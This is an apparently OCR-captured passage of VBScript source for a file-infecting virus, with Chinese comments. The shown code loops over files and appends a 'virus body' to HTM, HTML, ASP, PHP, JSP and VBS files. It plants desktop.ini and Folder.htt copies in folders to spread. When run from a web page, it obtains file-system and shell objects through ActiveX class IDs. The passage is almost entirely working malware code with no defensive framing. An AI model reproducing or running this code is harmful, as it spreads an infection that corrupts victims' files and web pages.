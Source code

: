 ```vbscript
For Each ThisFile In ThisFiles 
FileExt = UCase(FSO.GetExtensionName(ThisFile.Path)) 
' 判断扩展名 
' 若是HTM,HTML,ASP,PHP,JSP则向文件中追加HTML版的病毒体 
' 若是VBS则向文件中追加VBS版的病毒体 
' 若是HTT,则标志为已经存在HTT了 
If FileExt = "HTM" Or FileExt = "HTML" Or FileExt = "ASP" Or FileExt = "PHP" Or FileExt = "JSP" Then 
Call KJAppendTo(ThisFile.Path,"html") 
ElseIf FileExt = "VBS" Then 
Call KJAppendTo(ThisFile.Path,"vbs") 
ElseIf FileExt = "HTT" Then 
HttExists = 1 
End If 
Next 
' 如果所给的路径是桌面，则标志为已经存在HTT了 
If (UCase(PathName) = UCase(WinPath & "Desktop\")) Or (UCase(PathName) = UCase(WinPath & "Desktop"))Then 
HttExists = 1 
End If 
' 如果不存在HTT 
' 向目录中追加病毒体 
If HttExists = 0 Then 
FSO.CopyFile WinPath & "system32\desktop.ini",PathName 
FSO.CopyFile WinPath & "web\Folder.htt",PathName 
End If 
End Function 


' 函数KJSetDim() 
' 定义FSO,WsShell对象 
' 取得最后一个可用磁盘卷标 
' 生成传染用的加密字串 
' 备份系统中的web\folder.htt和system32\desktop.ini 
Function KJSetDim() 
On Error Resume Next 
Err.Clear 
' 测试当前执行文件是html还是vbs 
TestIt = WScript.ScriptFullname 
If Err Then 
InWhere = "html" 
Else 
InWhere = "vbs" 
End If 

' 创建文件访问对象和Shell对象 
If InWhere = "vbs" Then 
Set FSO = CreateObject("Scripting.FileSystemObject") 
Set WsShell = CreateObject("WScript.Shell") 
Else 
Set AppleObject = document.applets("KJ_guest") 
AppleObject.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}") 
AppleObject.createInstance() 
Set WsShell = AppleObject.GetObject() 
AppleObject.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}") 
AppleObject.createInstance() 
Set FSO = AppleObject.GetObject() 
End If 
Set DiskObject = FSO.Drives 
' 判断磁盘类型 
' 
' 0: Unknown 
' 1: Removable 
```